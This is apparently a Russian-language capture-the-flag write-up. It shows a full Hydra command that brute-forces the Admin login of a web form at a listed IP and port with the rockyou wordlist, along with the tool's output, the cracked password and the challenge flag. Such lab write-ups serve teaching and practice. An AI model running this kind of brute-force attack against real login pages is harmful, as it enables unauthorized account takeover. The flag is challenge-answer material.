

# Hydra

Каждый же знает, что **Hydra** это один из инструментов для брута?

Авторизуемся и смотрим, что было отправлено, к примеру, через f12.



```sh
username=jayse&password=nejayse&submit=Login
```

Читаем заметку: *Admin is hiding something...*

и запускаем гидру, где перебираем пароли к юзеру *Admin*:

```sh
$ hydra -V -I -f -l Admin -P rockyou.txt -t 4 http-post-form://46.254.20.217:2003 -m "/:username=^USER^&password=^PASS^&submit=Login:Incorrect"
[DATA] attacking http-post-form://46.254.20.217:2003//:username=^USER^&password=^PASS^&submit=Login:Incorrect
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "iloveyou" - 5 of 14344398 [child 2] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "princess" - 6 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "1234567" - 7 of 14344398 [child 1] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "rockyou" - 8 of 14344398 [child 3] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "12345678" - 9 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "abc123" - 10 of 14344398 [child 1] (0/0)
...
[2003][http-post-form] host: 46.254.20.217   login: Admin   password: shadow
[STATUS] attack finished for 46.254.20.217 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Логинимся, получаем флаг.

Флаг - *4hsl33p{hydr4_1s_t00l_r1ght?}*

